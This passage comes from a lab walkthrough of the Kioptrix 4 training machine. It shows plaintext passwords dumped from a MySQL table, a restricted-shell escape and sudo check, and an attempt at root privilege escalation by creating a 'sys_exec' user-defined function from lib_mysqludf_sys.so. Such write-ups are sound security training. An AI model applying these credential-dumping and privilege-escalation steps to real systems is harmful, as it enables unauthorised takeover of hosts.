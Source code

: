 The `members` database appears to be interesting over here. So, we can explore it first.

```bash
mysql> show tables;  
+-------------------+
| Tables_in_members |
+-------------------+
| members           | 
+-------------------+
1 row in set (0.00 sec)

mysql> select * from members;
+----+----------+-----------------------+
| id | username | password              |
+----+----------+-----------------------+
|  1 | john     | MyNameIsJohn          | 
|  2 | robert   | ADGAdsafdfwt4gadfga== | 
+----+----------+-----------------------+
2 rows in set (0.00 sec)
```

Now, that we have the password for user "robert" as well we can switch to his account. Also, the password appears to be a base64 encoded but it is not, so we can directly use the value as password.

After switch, again we enter a restricted shell for user "robert" as well. So, we can use the same `echo` command to escape this shell as well and check if user "robert" has access to some commands as `sudo` that we can use to escalate our privileges.

```bash
robert@Kioptrix4:~$ sudo -l
[sudo] password for robert: 
Sorry, user robert may not run sudo on Kioptrix4.
```

But even "robert" does not have access to any commands as `sudo`. We can check "robert's" home directory and files with SUID bit set but won't find anything useful. 

At this point it almost appears as a dead end. But we know that this machine is vulnerable in some or the other way. So, we must keep exploring.

We don't find any useful process that is running as user "robert" or "john".

At this point if we reconsider all the information that we have then from that the most important thing is that we have access to MySQL as `root`. So, we can start looking for methods to use MySQL for privilege escalation.

We can find one article [here](https://recipeforroot.com/mysql-to-system-root/) to gain root as by using the MySQL functions. This can be done by first creating a function named `sys_exec`.

```bash
mysql> use members;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create function sys_exec return integer soname 'lib_mysqludf_sys.so';
ERROR 1064 (42000): You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near 'return integer soname 'lib_mysqludf_sys.so'' at line 1
mysql> create function sys_exec returns integer soname 'lib_mysqludf_sys.so';
ERROR 1125 (HY000): Function 'sys_exec' already exists
```
